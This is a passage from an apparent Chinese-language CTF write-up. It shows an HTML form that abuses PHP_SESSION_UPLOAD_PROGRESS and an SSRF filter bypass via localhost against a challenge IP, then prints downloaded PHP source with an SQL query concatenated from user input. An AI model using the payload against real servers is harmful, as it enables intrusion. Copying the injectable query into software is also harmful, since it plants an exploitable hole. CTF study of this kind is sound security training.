 ```
    
?>
no session
```

要求存在session，可以利用PHP_SESSION_UPLOAD_PROGRESS设置PHPSESSID=flag

```html
<!DOCTYPE html>
<html>
<body>
<form action="http://183.129.189.60:10015/?url=http://localhost/admin.php" method="POST" enctype="multipart/form-data">
    <input type="hidden" name="PHP_SESSION_UPLOAD_PROGRESS" value="123" />
    <input type="file" name="file" />
    <input type="submit" value="submit" />
</form>
</body>
</html>
```

随便传一个文件，同时添加Cookie即可

SSRF，其中外部ip、127.0.0.1都被ban了，localhost可以，这里有个admin.php

![](https://img.npfs06.top/20210407191625.png?imageView2/0/q/75|watermark/2/text/bnBmczA2LnRvcA==/font/5b6u6L2v6ZuF6buR/fontsize/340/fill/IzAwMDAwMA==/dissolve/62/gravity/SouthEast/dx/10/dy/10)

访问路径，下载压缩包

```php
//se1f_Log3n.php

<?php
include("./php/db.php");
include("./php/check_ip.php");
error_reporting(E_ALL);
$ip = $_SERVER["REMOTE_ADDR"];
if($ip !== "127.0.0.1"){
    exit();
}else{
    try{
    $sql = 'SELECT `username`,`password` FROM `user` WHERE `username`= "'.$username.'" and `password`="'.$password.'";';
    $result = $con->query($sql);
    echo $sql;
    }catch(Exception $e){
        echo $e->getMessage();
    }
    ($result->num_rows > 0 AND $row = $result->fetch_assoc() AND $con->close() AND die("error")) OR ( ($con->close() AND die('Try again!') )); 
}
```



